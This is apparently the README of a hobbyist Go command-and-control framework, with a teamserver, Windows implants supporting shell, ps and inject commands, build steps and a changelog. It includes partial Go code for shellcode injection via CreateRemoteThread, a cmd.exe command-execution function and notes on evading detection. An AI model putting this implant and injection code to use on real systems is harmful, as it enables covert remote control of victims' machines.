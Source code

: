 ![Winton](https://i.imgur.com/Pmrv5t7.png)

<div align="center">
<h1>WintonC2</h1>

<i>Yet another Command and Control (C2) framework written in Go</i>
</div>
I wrote this to learn more about C2 internals, OPSEC considerations in beacon and to learn Golang _(i still can't get function imports to work)_.


## Features
### Teamserver
> Written in Golang 1.21.1 (tested on Windows/AMD64)
- Support for multiple listeners, but only HTTP is implemented
- Multiple agents & asynchronous callbacks
- Todo: HTTPS listener, authentication & internal API for operator interaction 

### Implant
> Written in Golang 1.21.1 (tested on Windows/AMD64) 
- Built-ins are implemented via the Golang standard library, may spawn cmd.exe
- Supported commands: `ls`, `whoami`, `pwd`, `shell`, `ps`, `getpid`, `inject`
- Process Injection via `CreateRemoteThread`
  
![WintonC2](https://i.gyazo.com/e10bcbdd23217af2032ba1de39639ed5.png)

### Client
> Written in Python 3.9+ 
- Communicates directly with the `teamserver`

## Compilation
The `teamserver` compiles to a single golang binary:
```bash
cd ./teamserver && make 
cd ./bin && ./teamserver <ip> <port> <password>
```

The Go agent `Wonton` is compiled to a single golang binary:
```bash
cd './implan/Wonton (GO)\' && make
cd ./bin && ./winton-win64.exe
```

The C agent `Wanton` has a MSVC solution file, compile the solution in `Release` mode (not really maintained, probably broken):
```bash
gcc -Wall -std=c99 -o Wanton.exe Commands.c Main.c Utils.c -lcurl
```
_A Makefile is not provided because I am lazy_

## Change Log

#### 24/11/2023 - Shellcode Injection via CreateRemoteThread (Session Passing)
- 2 new commands: `ps` and `inject`
    - `ps` lists all running processes on the target as well as their PID, PPID, Name, Arch, Session & User.
        - `Usage: ps`
![24/11/2023](https://i.imgur.com/GAYSs0m.png)
    - `inject` injects shellcode into a running process via `CreateRemoteThread`
![24/11/2023](https://i.imgur.com/H7OD72D.png)
        - `Usage: inject <pid> <path_to_binfile>`
        - `Example: inject 17952 ../shellcode/calc/calc.bin`
        - The shellcode is loaded from a file, and is base64 encoded before being sent to the target.
        - The shellcode is then decoded and injected into the target process via `CreateRemoteThread`
        ```go
        var kernel32 = windows.NewLazySystemDLL("kernel32.dll")

        var (
            virtualAllocEx      = kernel32.NewProc("VirtualAllocEx")
            writeProcessMemory  = kernel32.NewProc("WriteProcessMemory")
            createRemoteThread  = kernel32.NewProc("CreateRemoteThread")
            WaitForSingleObject = kernel32.NewProc("WaitForSingleObject")
            closeHandle         = kernel32.NewProc("CloseHandle")
        )
        ...
        process_handle, err := windows.OpenProcess(..., uint32(pid), ...)
        ...
        addr, _, err := virtualAllocEx.Call(..., uintptr(len(shellcode)), ..., windows.PAGE_EXECUTE_READWRITE) // BAD
        ...
        _, _, err := writeProcessMemory.Call(..., addr, (uintptr)(unsafe.Pointer(&shellcode[0])), uintptr(len(shellcode)))
        ...
        thread_handle, _, err := createRemoteThread.Call(uintptr(process_handle), 0,  0, addr, 0, 0, 0)

        closeHandle.Call(uintptr(thread_handle))
        closeHandle.Call(uintptr(process_handle))
        ```
    - OPSEC considerations (why this is a budget injection):
        - `VirtualAllocEx` is called with PAGE_EXECUTE_READWRITE
        - Unbacked memory allocation 
        - Thread start address is 0x0 

- `./shellcode/calc/calc.bin` is x64 shellcode that spawns calc.exe ~ [_thanks boku7_](https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode/blob/main/win-x64-DynamicKernelWinExecCalc.asm)
- `./shellcode/beacon/winton-win64.bin` is x64 shellcode that spawns a new beacon ~ [_thanks donut_](https://github.com/TheWover/donut) -
    - generated using [exe2_csh](https://github.com/gatariee/exe2c_sh) 
    - `./exe2sh.py -i winton-win64.exe -o ./shellcode/beacon/winton-win64.bin`

#### 15/11/2023 - Mass codebase refactoring & implementation of shell commands 
- The codebase has been refactored to be more modular and easier to read, (teamserver & go implant)
    - Doesn't exactly follow Go best practices, but it's certainly better than before. 
- The `teamserver` and `implant (go)` now have Makefiles and support for cross-compilation, see [here](./implant/Wonton%20(GO)/Makefile) and [here](./teamserver/Makefile) for more info.
- Added support for `shell` commands in beacon
    - Spawns `cmd.exe /c {task}`, not opsec safe.
```go
func shell(command string) (string, error) {
cmd := exec.Command("cmd.exe", "/c", command)
stdout, err := cmd.Output()
if err != nil {
    return "", err
}
return string(stdout), nil
}
```
![15/11/2023](https://i.imgur.com/JVeojRf.png)

#### 12/11/2023 - Wanton has a better (and much bigger) brother implant! (Wonton)
- The [new implant](./implant/Wonton%20(GO)/) is written in Go.
- Although this was much more convenient to write, Golang binaries have the downside being much larger than C binaries.
    - The C implant is 75KB, the Go implant is 7,165KB.
- The Go implant is also much more stable than the C implant, and has more features.
    - The C implant will be removed in the future.
- Currently has support for 2 commands: `whoami` and `ls`
![12/11/2023](https://i.imgur.com/ZkIaKIw.png)
![12/11/2023](https://i.imgur.com/lcZvWN7.png)

#### 10/11/2023 - Winton now has an agent for Windows! (Wanton)
- The agent is written in C and is extremely unstable! :D, and barely functional.
    - This implant will probably be abandoned cos I hate parsing JSON in C, but this was a nice WinAPI sanity check.
- Currently only has support for `pwd`, but more commands will be added eventually.
    ![10/11/2023](https://i.imgur.com/D2nVffY.png)
#### 9/11/2023 - Beacons can now go offline!
- If the callback from the last beacon is over `Agent.Sleep + 5` seconds, the beacon will be marked as down (_but should still listening for callbacks_).
   - In its current state, the agent gets completely removed from the `AgentList[]` and `AgentCallbacks[]` if it goes offline, this will be changed in the future to allow for offline agents to still be in the list.
    ![9/11/2023](https://i.imgur.com/CZm1eGe.png)
- The change of beacon state is also reflected in the `AgentList[]` and `AgentCallbacks[]` tables
    ![9/11/2023](https://i.imgur.com/p87EHej.png)
